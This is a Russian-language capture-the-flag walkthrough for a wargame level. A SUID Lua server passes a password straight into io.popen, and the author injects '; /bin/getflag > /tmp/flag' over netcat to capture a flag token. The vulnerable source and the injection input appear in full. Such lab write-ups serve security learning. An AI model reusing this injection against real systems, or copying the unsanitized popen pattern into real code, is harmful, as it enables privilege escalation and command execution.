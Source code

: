 ```
ls -l
```
> total 4\
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua\

SUID, все как обычно, запустим

```
./level11.lua
```
> lua: ./level11.lua:3: address already in use\
stack traceback:\
	[C]: in function 'assert'\
	./level11.lua:3: in main chunk\
	[C]: ?

Посмотрим, что там внутри:

```
cat level11.lua
```
> \#!/usr/bin/env lua\
local socket = require("socket")\
local server = assert(socket.bind("127.0.0.1", 5151))\
\
function hash(pass)\
  prog = io.popen("echo "..pass.." | sha1sum", "r")\
  data = prog:read("\*all")\
  prog:close()\
\
  data = string.sub(data, 1, 40)\
\
  return data\
end\
\
\
while 1 do\
  local client = server:accept()\
  client:send("Password: ")\
  client:settimeout(60)\
  local l, err = client:receive()\
  if not err then\
      print("trying " .. l)\
      local h = hash(l)\
\
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then\
          client:send("Erf nope..\n");\
      else\
          client:send("Gz you dumb*\n")\
      end\
\
  end\
\
  client:close()\
end

Сервер слушвет порт 5151, пробуем подключиться:
```
nc localhost 5151
```
> Password: aaaaaa\
Erf nope..

Ничего не происходит, читаем код внимательно, находим io.popen:
Исходя из документации :
io.open (filename [, mode])

*io.popen (prog [, mode])
Starts program prog in a separated process and returns a file handle that you can use to read data from this program (if mode is "r", the default) or to write data to this program (if mode is "w").
This function is system dependent and is not available on all platforms.*

Запускает программу prog в отдельном процессе и возвращает хендлер файла, который вы можете
использовать для чтения данных из этой программы (если mode равен "r", значение по умолчанию)
или для записи данных в эту программу (если mode равен "w").

Так как данная функция запускает программу, а на файле стоит suid, значит нам просто нужно дать строку, которая выполнит getflag

echo "..pass.." | sha1sum <- Сюда нужно вставть код, который мы хотим выполнить

```
nc localhost 5151
; /bin/getflag > /tmp/flag
```
```
cat /tmp/flag
```
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
